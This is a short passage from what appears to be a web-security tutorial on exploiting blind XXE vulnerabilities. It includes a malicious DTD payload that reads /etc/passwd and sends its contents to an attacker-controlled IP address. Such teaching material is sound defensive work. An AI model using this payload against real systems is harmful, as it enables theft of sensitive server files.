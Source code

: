 # Exploiting blind XXE to exfiltrate data out-of-band

Detecting a blind XXE vulnerability via out-of-band techniques is all very well, but it doesn't actually demonstrate how the vulnerability could be exploited. What an attacker really wants to achieve is to exfiltrate sensitive data. This can be achieved via a blind XXE vulnerability, but it involves the attacker hosting a malicious DTD on a system that they control, and then invoking the external DTD from within the in-band XXE payload.

An example of a malicious DTD to exfiltrate the contents of the `/etc/passwd` file is as follows:
```
<!ENTITY % file SYSTEM "file:///etc/passwd">
<!ENTITY % eval "<!ENTITY &#x25; exfiltrate SYSTEM 'http://192.168.0.107/?x=%file;'>">
%eval;
%exfiltrate;
```
